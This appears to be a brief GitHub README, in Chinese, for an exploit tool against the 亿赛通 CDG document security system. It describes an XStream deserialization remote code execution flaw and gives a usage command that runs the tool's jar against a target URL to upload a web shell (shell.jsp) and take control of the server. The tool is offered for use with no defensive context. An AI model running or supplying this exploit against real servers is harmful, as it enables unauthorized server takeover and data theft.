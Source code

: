 # CDGXStreamDeserRCE

> 亿赛通电子文档安全管理系统（简称：CDG）是一款电子文档安全防护软件，该系统利用驱动层透明加密技术，通过对电子文档的加密保护，防止内部员工泄密和外部人员非法窃取企业核心重要数据资产。亿赛通电子文档安全管理系统存在XStream反序列化远程代码执行漏洞，攻击者可利用该漏洞对服务器上传任意文件，进而控制服务器权限。


## 使用

```bash
java -jar CDGXStreamDeserRCE.jar -url http://192.168.1.1:8443 -uf shell.jsp
```
